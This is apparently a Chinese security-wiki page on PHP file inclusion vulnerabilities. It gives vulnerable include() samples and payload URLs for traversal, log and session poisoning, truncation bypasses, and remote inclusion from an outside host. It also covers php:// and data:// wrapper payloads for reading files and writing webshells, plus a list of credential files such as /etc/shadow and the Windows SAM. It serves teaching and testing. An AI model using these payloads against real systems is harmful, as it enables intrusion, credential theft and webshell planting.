



文件包含
========================================

基础
----------------------------------------
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。

::

	<?php
	    $filename  = $_GET['filename'];
	    include($filename);
	?>

例如：
$_GET['filename']参数开发者没有经过严格的过滤，直接带入了include的函数，攻击者可以修改$_GET['filename']的值，执行非预期的操作。

考虑常用的几种包含方式为:

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

触发Sink
----------------------------------------
- PHP文件包含函数有以下四种
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

本地文件包含漏洞
----------------------------------------

- 无限制本地文件包含漏洞
- session文件包含漏洞
	利用条件：session的存储位置可以获取。(phpinfo()或猜测,如linux下默认存储在/var/lib/php/session目录下)
	示例：
	::

		<?php
		    session_start();
		    $ctfs=$_GET['ctfs'];
		    $_SESSION["username"]=$ctfs;
		?>

	漏洞分析:
	::

		此php会将获取到的GET型ctfs变量的值存入到session中。
		当访问http://www.ctfs-wiki/session.php?ctfs=ctfs 后，会在/var/lib/php/session
		目录下存储session的值。
		session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

	|fileincludesessionid|

	所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。
	服务器的/var/lib/php/session目录下此文件内容为：
	::

		username|s:4:"ctfs";
		[root@c21336db44d2 session]# cat sess_akp79gfiedh13ho11i6f3sm6s6
		username|s:4:"ctfs"

	漏洞利用:

	::

		通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过
		ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
		当访问http://www.ctfs-wiki/session.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下
		存储session的值。

- 有限制本地文件包含漏洞绕过
	- %00截断
		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

          ``http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00`` 

	- 路径长度截断
		条件：windows OS，点号需要长于256；linux OS 长于4096
		::

			Windows下目录最大长度为256字节，超出的部分会被丢弃；
			Linux下目录最大长度为4096字节，超出的部分会被丢弃。

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

	- 点号截断
		条件：windows OS，点号需要长于256

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................

远程文件包含漏洞
----------------------------------------
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，
如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

- 无限制远程文件包含漏洞
- 有限制远程文件包含漏洞绕过
	- 问号绕过
		 ``<?php include($_GET['filename'] . ".html"); ?>`` 代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀，问号绕过如下：
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?`` 
	- #号绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23`` 
	- 空格绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20`` 

url编码绕过
----------------------------------------
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过。

伪协议绕过
----------------------------------------
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
	- 命令执行
		|fileincludecommand|
	- 写入webshell
		条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
		|fileincludemuma|
- Base64伪协议读取文件
	payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 
- data伪协议读取文件内容
	payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

常见的敏感信息路径：
----------------------------------------
Windows系统

::

	c:\boot.ini // 查看系统版本
	c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
	c:\windows\repair\sam // 存储Windows系统初次安装的密码
	c:\ProgramFiles\mysql\my.ini // MySQL配置
	c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
	c:\windows\php.ini // php 配置信息

Linux/Unix系统

::

	/etc/passwd 	//账户信息
	/etc/shadow 	//账户密码文件
	/usr/local/app/apache2/conf/httpd.conf	//Apache2默认配置文件
	/usr/local/app/apache2/conf/extra/httpd-vhost.conf	//虚拟网站配置
	/usr/local/app/php5/lib/php.ini		//PHP相关配置
	/etc/httpd/conf/httpd.conf 		//Apache配置文件
	/etc/my.conf 		//mysql配置文件
	/etc/hostname		//获取主机名
	/etc/httpd/logs/access_log		//apache配置log
	/etc/httpd/logs/error_log		//apache配置log
	.htaccess		//文件中的配置指令作用于.htaccess文件所在的目录及其所有子目录
	.htpasswd		//HTTP用户的basic认证密码文件，一般在/var/www(/mysite)/.htpasswd

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_

